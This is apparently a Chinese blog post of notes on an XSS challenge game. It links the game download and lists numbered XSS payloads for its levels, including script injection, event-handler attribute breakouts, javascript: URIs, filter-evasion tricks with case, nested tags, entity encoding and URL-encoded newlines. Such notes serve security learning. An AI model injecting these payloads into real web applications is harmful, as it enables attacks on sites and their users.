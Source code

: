 ```yaml
---
layout: post
title: xss的语句
category: 
  - web安全
tags: 
  - xss 
  - web安全
abbrlink: 3180077102
date: 2018-10-05 00:00:00
description: more
---
```

这是一个xss的闯关游戏  

[下载链接:](https://pan.baidu.com/s/1bqtFVGrc4TlihuWT2TBxtQ)  
提取码: isre  

xss的语句

	1
	<script>alert(/xss/)</script>
	2
	"><script>alert(/xss/)</script>

	3

	'onmouseover='alert(/xss/)'

	4
	" oninput=alert`xss`//
	" onfocus=alert`xss` autofocus= "
	" onchange=alert`xss` "


	<img src=x onerror=alert(/xss/)>

	5

	"><a href=javascript:alert(/xss/)>

	6
	"><A HREF=javascript:alert(/xss/)>

	7
	"><scrscriptipt>alert(/xss/)</scscriptript>

	8
	html 字符实体编码转换
	java&#x73;cript:alert(1)

	9
	java&#x73;cript:alert(1)/*http://*/

	10
	&t_sort=a" onclick="alert(1)"

	15
	urlencode
	%0a%0d
	<img%0asrc=xx%0aonerror=alert(/xss/)>

## LINKS

[xss_payload](http://html5sec.org/#html5)


